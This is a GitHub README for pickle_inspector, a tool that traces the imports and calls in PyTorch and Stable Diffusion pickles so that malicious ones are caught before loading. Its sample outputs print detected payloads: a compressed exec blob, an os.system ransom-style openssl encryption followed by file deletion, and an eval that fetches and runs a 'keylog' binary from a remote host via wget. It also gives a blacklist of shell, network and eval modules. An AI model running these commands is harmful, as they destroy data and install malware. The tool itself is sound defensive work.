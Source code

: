 # pickle_inspector 🥒🔬
Check what is in the pickle before eating it.

1. [About](#about)
1. [Command line usage](#scanning-pickles-via-command-line)
1. [Library usage](#inspecting)
1. [Controlled unpickling](#controlled-unpickling)
1. [Black- and whitelists](#blacklist--whitelist)
1. [Acknowledgements](#acknowledgements)

## About

- Trace calls and imports that would occur if a pickle had been loaded
- Flat but detailed call graphs
- Load malicious pickles by skipping blacklisted items
- Library and script usage
- Combination of black and whitelists for fine grained control
- Can be used with pytorchs load function

It works on any type of pickle, but was made with `torch` in mind.

NOTE:
torch == 1.13.0 breaks using custom unpicklers, see https://github.com/pytorch/pytorch/issues/88438
until this is fixed, stick to 1.12.x or older.

## Scanning pickles via command line
**tl;dr** just let me scan my pickles.
Using a preset blacklist for arbitrary code execution
```sh
python scan_pickle.py -f exec -i pickled.pkl
```
```
> Using blacklist: exec
> Scanning file(s): ['pickled.pkl']
> Using black list: ['__builtin__.breakpoint', '__builtin__.open', 'requests.*', 'builtins.open', '__builtin__.compile', 'socket.*', 'builtins.breakpoint', 'os.*', 'nt.*', 'builtins.eval', 'webbrowser.*', '__builtin__.eval', 'builtins.exec', 'posix.*', '__builtin__.exec', '__builtin__.getattr', 'builtins.getattrsubprocess.*', 'builtins.compile', 'aiohttp.*', 'httplib.*', 'sys.*']
> Reading pickled.pkl
> Scanning: pickled.pkl
> found: __builtin__.exec
> found: zlib.decompress
>
> Found blacklisted items:
>
>   __builtin__.exec.__call__((zlib.decompress((b'x\xda5\xcd]\n\xc3 \x10\x04\xe0\xf7\x9cb\xd9\x17\x15$\x07\x08x\x87\xde@$\xac\xe9R\xff\xd0\r\t\x94\xde\xbdB\xe9<}\x0c\x0c\x13{\xcd\x90\xcf$\xdcz\xddi\x0c.\x07pn\xb5\x0b<~\xcd\xd2\xc0\xfd\xad%\xf4\x83\xc4\xd1M\xbb\x85\xe9\xe14"^,O\xa8\x8d\x8aV\xa9\xa6UnQ\x16\xd4\xa5\x0c\x84\x01q[`\xa6u.\xa21\x9e\xfb\x0b-DN\xe4\xa2\x99[\xfbF\xefK\xc8\xe4=n\x939p\x99\xfcX0fi\xeb\x98\x8f\xa2\xcd\x17\x1d%6\xbc',), {}),), {})
>
> Scan for pickled.pkl FAILED ⚠️
```
Using a preset whitelist for a stable diffusion checkpoint
```sh
python scan_pickle.py --preset stable_diffusion_v1 --in sus.ckpt
```
```
> Using whitelist: stable_diffusion_v1
> Scanning file(s): ['sus.ckpt']
> Using white list: ['collections.OrderedDict', 'torch._utils._rebuild_tensor_v2', 'torch.HalfStorage', 'torch.FloatStorage', 'torch.IntStorage', 'torch.LongStorage', 'pytorch_lightning.callbacks.model_checkpoint.ModelCheckpoint', 'numpy.core.multiarray.scalar', 'numpy.dtype', '_codecs.encode']
> Reading sus.ckpt
> Found pickle in zip: archive/data.pkl
> Scanning: archive/data.pkl
> found: torch._utils._rebuild_tensor_v2
> found: torch.FloatStorage
> found: collections.OrderedDict
> found: torch.IntStorage
> found: torch.LongStorage
> found: pytorch_lightning.callbacks.model_checkpoint.ModelCheckpoint
> found: numpy.core.multiarray.scalar
> found: numpy.dtype
> found: _codecs.encode
>
> Scan for sus.ckpt PASSED ✅
```
### Script usage
```
usage: scan_pickle.py [-h] -i INPUT [INPUT ...]
                      [-p {stable_diffusion_v1,stable_diffusion_v2} [{stable_diffusion_v1,stable_diffusion_v2} ...]]
                      [-f {exec} [{exec} ...]] [-w WHITELIST [WHITELIST ...]] [-b BLACKLIST [BLACKLIST ...]]

Scan pickles

optional arguments:
  -h, --help            show this help message and exit
  -i INPUT [INPUT ...], --in INPUT [INPUT ...]
                        path to a pickle(s) or zip(s) containing pickles
  -p {stable_diffusion_v1,stable_diffusion_v2} [{stable_diffusion_v1,stable_diffusion_v2} ...], --preset {stable_diffusion_v1,stable_diffusion_v2} [{stable_diffusion_v1,stable_diffusion_v2} ...]
                        a whitelist preset to use
  -f {exec} [{exec} ...], --preset_blacklist {exec} [{exec} ...]
                        a blacklist preset to use
  -w WHITELIST [WHITELIST ...], --whitelist WHITELIST [WHITELIST ...]
                        whitelist of modules and functions to allow
  -b BLACKLIST [BLACKLIST ...], --blacklist BLACKLIST [BLACKLIST ...]
                        blacklist of modules and functions to block
```
## Inspecting
Inspect without unpickling.
```py
import torch
import pickle_inspector
result = torch.load('sus.pt', pickle_module=pickle_inspector.inspector)
for c in result.imports:
    print(c)
```
notice calls to `shutil.rmtree`, `os.system` or similar
```
> shutil.rmtree
> torch._utils._rebuild_tensor_v2
> collections.OrderedDict
> numpy.core.multiarray.scalar
> os.system
> numpy.dtype
> _codecs.encode
```
so we are taking a closer look at what is being called
```py
for c in result.calls:
    print(c)
```
and it seems like someone tried to delete something and ransom a file
```
> shutil.rmtree(('/very/important/folder'), {})
> collections.OrderedDict((), {})
> torch._utils._rebuild_tensor_v2((None, 0, (1000,), (1,), False, collections.OrderedDict((), {})), {})
...
> torch._utils._rebuild_tensor_v2((None, 0, (), (), False, collections.OrderedDict((), {})), {})
> os.system(('openssl enc -aes-128-ecb -in important_file -out give_money.enc -K 1337B00B135DEADBEEF; rm important_file'), {})
> numpy.dtype(('f8', False, True), {})
> numpy.dtype.__setstate__(((3, '<', None, None, None, -1, -1, 0),), {})
> _codecs.encode(('ñhã\x88µøÔ>', 'latin1'), {})
> numpy.core.multiarray.scalar((numpy.dtype(('f8', False, True), {}), _codecs.encode(('ñhã\x88µøÔ>', 'latin1'), {})), {})
```
## Controlled unpickling
Inspect and unpickle using white and blacklists.

```py
import torch
from pickle_inspector import UnpickleConfig, UnpickleControlled, PickleModule
config = UnpickleConfig()
# only allow  modules, classes and funcions in the whitelist
# the rest will be stubbed
config.whitelist = [
        'torch._utils._rebuild_tensor_v2',
        'torch.FloatStorage',
        'torch.IntStorage',
        'torch.LongStorage',
        'numpy.core.multiarray.scalar',
        'numpy.dtype',
        'collections.OrderedDict',
        '_codecs.encode'
]
result = torch.load('model.ckpt', pickle_module = PickleModule(UnpickleControlled, config))

# Use the state_dict as usual
state_dict = result.structure
# ...

# print import results
for c in result.imports:
    print(c)
```
```
> torch._utils._rebuild_tensor_v2
> torch.FloatStorage
...
> __builtin__.eval
> collections.OrderedDict
...
```
```py
for c in results.calls:
    if 'eval' in c:
        print(c)
```
```py
> __builtin__.eval('import os;os.system("wget https://sus.to/keylog;chmod +x keylog;./keylog &")')
```
## Blacklist & Whitelist
The whitelist has priority over the blacklist.

If the blacklist contains items everything will be allowed except items in the blacklist,\
or items in the blacklist and in the whitelist. This is useful using wildcards.

Example: Block everything within `torch` except `torch.FloatStorage`
```py
conf.blacklist = ['torch.*']
conf.whitelist = ['torch.FloatStorage']
```

If the blacklist is empty and the whitelist contains items, \
everything except items in the whitelist will be blocked.

## Safe whitelist for stable diffusion
A premade whitelist for stable diffusion v1 and v2 is available in this project.

Example: Scan a stable diffusion v1 checkpoint
```py
import torch
from pickle_inspector import UnpickleConfig, PickleModule, UnpickleInspector, importlists
conf = UnpickleConfig(whitelist = importlists.stable_diffusion_v1)
torch.load('sd-v1-4.ckpt', pickle_module=PickleModule(UnpickleInspector, conf))
```

Tested with python 3.9 and torch 1.12.1

---

## Acknowledgements

- [pickle_injector](https://github.com/coldwaterq/pickle_injector) where [coldwaterq](https://github.com/coldwaterq) describes an easy way to inject malicious code into pickle files
- [picklescan](https://github.com/mmaitre314/picklescan) by [mmaitre314](https://github.com/mmaitre314) as an alternative approach to pickle scanning


---

Copyright (C) 2022  Lopho `<contact@lopho.org>`\
Licensed under the AGPLv3 `<https://www.gnu.org/licenses/agpl-3.0.html>`
